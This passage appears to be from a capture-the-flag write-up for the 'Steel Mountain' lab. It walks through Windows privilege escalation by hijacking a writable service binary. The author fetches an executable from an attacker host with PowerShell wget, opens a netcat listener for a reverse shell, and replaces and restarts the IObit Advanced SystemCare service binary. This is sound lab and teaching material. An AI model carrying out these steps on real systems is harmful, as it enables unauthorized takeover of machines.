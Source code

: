 <br />
Use PowerShell to transfer the file to the victim machine.

{% raw %}
```bash
C:\Users\bill>powershell -c wget "http://10.4.119.29:8000/Advanced.exe" -outfile "Advanced.exe"
powershell -c wget "http://10.4.119.29:8000/Advanced.exe" -outfile "Advanced.exe"
```
{% endraw %}

<br />
Create a netcat listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ nc -nlvp 9001                             
listening on [any] 9001 ...
```
{% endraw %}

<br />
Stop the service from running.  Overwrite the binary.  Start the service again.

{% raw %}
```bash
C:\Users\bill>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9
[SC] ControlService FAILED 1062:

The service has not been started.


C:\Users\bill>copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): Yes
Yes
        1 file(s) copied.

C:\Users\bill>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2044
        FLAGS              : 
```
{% endraw %}
